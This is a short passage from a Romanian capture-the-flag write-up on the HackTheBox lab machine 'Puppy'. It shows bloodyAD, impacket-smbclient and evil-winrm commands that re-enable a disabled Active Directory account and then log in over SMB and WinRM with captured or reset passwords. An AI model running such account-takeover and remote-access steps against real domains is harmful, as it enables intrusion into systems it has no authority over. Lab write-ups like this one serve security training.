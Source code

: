 ![Fig. 22](./image-21.png)

Fig. 22

*bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' remove uac 'adam.silver' -f ACCOUNTDISABLE*

![Fig. 23](./image-22.png)

Fig. 23

Dupa resetarea parolei si activarea contului am reusit sa creeam o sesiune la smb. 

*impacket-smbclient 'PUPPY.HTB/adam.silver:NewPass123'@10.10.11.70 -dc-ip 10.10.11.70*

![Fig. 24](./image-23.png)

Fig. 24

Reincercand sesiunea de evil-winrm am reusit sa ma conectez la adam.silver

*evil-winrm -i 10.10.11.70 -u 'PUPPY.HTB\adam.silver' -p 'NewPass123’*

![Fig. 25](./image-24.png)

Fig. 25
